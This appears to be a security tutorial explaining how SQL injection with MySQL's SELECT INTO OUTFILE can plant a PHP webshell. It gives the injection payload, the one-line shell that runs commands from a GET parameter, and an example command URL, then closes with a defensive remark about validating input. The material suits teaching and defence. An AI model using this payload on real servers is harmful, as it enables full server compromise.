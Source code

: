 # MySQL

In an SQL injection scenario using `SELECT INTO OUTFILE`, an attacker might exploit the vulnerability to upload a webshell onto the server. A webshell is a script that can be accessed via a web browser and allows the attacker to execute server commands, effectively giving them control over the server.

#### Example Scenario:

Imagine a website feature that allows users to export transaction details to a CSV file using a user-input controlled query, similar to the following:

```sql
SELECT transaction_details FROM transactions WHERE user_id = 'user_input';
```

An attacker could manipulate the `user_input` to end the initial query and append a malicious `SELECT INTO OUTFILE` command to upload a webshell:

```sql
1'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'
```

**Breakdown of the Injection:**

1. **Termination of Original Query**: The attacker terminates the intended SQL query by injecting `1';` which effectively closes the user input for `user_id`.
2. **Webshell Payload**: The attacker starts a new query with `SELECT`, where the content to be selected is a PHP script: `<?php system($_GET["cmd"]); ?>`. This PHP script is a simple webshell that executes commands passed to it via the `cmd` GET parameter.
3. **File Creation**: The payload is written into a new file named `shell.php` in the `/var/www/html/` directory, which is typically accessible via the web browser.

**Result of the Exploit:**

*   If the server permissions allow writing files in the web directory and the application is vulnerable to SQL injection, this will create a file named `shell.php`. An attacker can then access this file via a web browser and execute server commands by appending a `cmd` parameter to the URL, like so:

    ```
    http://example.com/shell.php?cmd=whoami
    ```
* This URL would execute the `whoami` command on the server, and the output would be displayed in the browser, thus confirming the server's control to the attacker.

#### Impact:

This type of attack could lead to full server compromise, allowing an attacker to execute arbitrary commands, manipulate server data, or use the server to launch further attacks.

This example highlights the severity of SQL injection vulnerabilities and underscores the importance of validating and sanitizing all user inputs to prevent such security breaches.
